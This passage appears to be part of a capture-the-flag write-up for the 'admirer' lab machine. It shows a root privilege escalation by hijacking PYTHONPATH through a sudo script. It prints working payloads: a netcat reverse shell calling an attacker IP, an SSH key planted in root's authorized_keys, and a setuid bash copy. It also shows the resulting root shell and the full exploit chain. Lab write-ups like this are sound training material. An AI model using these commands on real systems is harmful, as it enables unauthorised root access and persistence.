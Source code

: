 ```console
$ # other methods
[1] -> os.system('nc 10.10.14.54 1234 -e bash')
[2] -> os.system("mkdir -p /root/.ssh; echo 'ssh pub key' >> /root/.ssh/authorized_keys")
[3] -> os.system('cp /bin/bash /dev/shm/mybash; chown root:root /dev/shm/mybash; chmod 4755 /dev/shm/mybash')
```

- exeucte sudo command and input 6 to trigger exploit code
  - **sudo -E does not pass PYTHONPATH**

```console
sudo -E /opt/scripts/admin_tasks.sh -> [x]
sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh -> [ok]
```

```console
$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.187] 60846
# id
uid=0(root) gid=0(root) groups=0(root)
# uname -a
Linux admirer 4.9.0-19-amd64 #1 SMP Debian 4.9.320-2 (2022-06-30) x86_64 GNU/Linux
```

## Exploit Chain

port scan -> web path scan -> ftp cred leakage -> web path leakage, db cred leakage(wrong) -> phpinfo page -> path scan -> Adminer login page -> LFI: db cred page -> db, ssh cred -> waldo shell -> sudo enum -> SETENV script -> trigger a python file -> change PYTHONPATH to overlap used python package -> execute intended python code (rshell) -> root shell
